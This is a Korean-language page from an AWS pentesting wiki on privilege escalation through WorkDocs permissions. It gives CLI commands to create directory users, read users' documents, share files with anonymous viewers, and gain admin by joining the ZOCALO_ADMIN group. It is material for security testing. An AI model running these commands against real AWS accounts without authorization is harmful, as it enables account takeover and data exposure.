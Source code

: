 # AWS - WorkDocs 권한 상승

## WorkDocs

WorkDocs에 대한 자세한 정보는 다음을 참조하십시오:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

지정된 디렉토리 내에서 사용자를 생성한 후, WorkDocs와 AD에 모두 액세스할 수 있습니다.
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

파일에는 민감한 정보가 포함될 수 있으므로, 이를 읽어보십시오:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

어떤 것을 읽을 수 있는 권한이 없다면, 그것을 부여할 수 있습니다.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

사용자를 그룹 ZOCALO_ADMIN에 추가하여 관리자로 설정할 수 있습니다.\
이를 위해 [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)에서 제공하는 지침을 따르세요.

해당 사용자로 workdoc에 로그인하고 `/workdocs/index.html#/admin`에서 관리자 패널에 액세스하세요.

CLI에서 이 작업을 수행하는 방법을 찾지 못했습니다.
